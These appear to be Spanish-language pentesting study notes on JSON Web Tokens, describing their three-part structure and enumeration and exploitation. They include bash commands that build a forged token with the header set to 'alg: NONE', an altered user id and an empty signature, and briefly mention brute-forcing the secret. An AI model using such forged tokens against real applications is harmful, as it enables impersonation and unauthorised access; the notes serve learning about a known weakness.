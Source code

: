 -- - 
Los Json Web Tokens (JWT) son un tipo de token utilizado en la autenticación y autorización de usuarios en aplicaciones web. JWT es un estándar abierto (RFC 7519) que define un formato compacto y seguro para transmitir información entre diferentes partes de forma confiable.

En lo que respecta a la fase de enumeración y explotación de un JWT, esto se produce cuando un atacante es capaz de obtener información sobre los JWT que se utilizan en la aplicación, lo que podría permitir al atacante explotar las debilidades en la autenticación y autorización de la aplicación.

La enumeración de los JWT se produce cuando un atacante utiliza técnicas de fuerza bruta o cierta ingeniería inversa para obtener información sobre los JWT utilizados por la aplicación web. Por ejemplo, el atacante podría intentar adivinar los valores de los JWT mediante la construcción de tokens falsos, tratando de validar en todo momento si la aplicación web los acepta o no. Si el atacante tiene éxito en la enumeración de un JWT válido, podría obtener información confidencial, como nombres de usuario, contraseñas, roles de usuario y otros datos de autenticación y autorización.

La explotación de los JWT se produce cuando un atacante utiliza la información obtenida de la enumeración del JWT para explotar debilidades en la aplicación. Por ejemplo, si la aplicación web utiliza JWT para la autenticación, pero no valida adecuadamente la firma del JWT, un atacante podría falsificar el token y acceder a la aplicación web como si fuera un usuario legítimo.

Los JWT estan compuesto por 3 partes:
1. ==El header== ---> Algorith & Token type
2. **El payload** ---> Data
3. *La signature* ---> Verify Signature 
==eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9==.**eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ**.*SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c*

Estos mismos estan hechos en encodeados en base64 por lo que se los puede encodear de decodear en su propia web *jwt.io* o en la misma terminal.

-- -
## Posibles fallas en el uso de los JWT
### Algorithm = None y no ponemos signature
```bash
echo -n '{"alg":"NONE","typ":"JWT"}' | base64
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0= ---> header modificado y encodeado en base64
```

```bash
echo -n '{"id":2,"iat":1724327756,"exp":1724331356}' | base64
eyJpZCI6MiwiaWF0IjoxNzI0MzI3NTA4LCJleHAiOjE3MjQzMzExMDh9
```
Ahora podriamos intentar juntar las 2 cadenas resultantes unidas por un punto para ver si se puede burlar la signatura
```bash 
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNzI0MzI3NzU2LCJleHAiOjE3MjQzMzEzNTZ9. 
```
**Aclaracion:**
Esto funciona ya que al poner **"alg":"NONE"** no hay ningun algoritmo el cual se aplique a la signature por lo que no hace falta poner la ultima cadena, lo cual nos permitiria crear nuestros propios JWT.

**IMPORTANTE:**
Borrar el "=" que te da la primer cadena y agregar un punto al final de las 2 cadenas unidas. 
### Brute Force Attack sobre el secreto
Este otro metodo consiste en descubrir el secreto mediante puras combinaciones hasta que nos tome el JWT como valido. 
No lo considero factible.
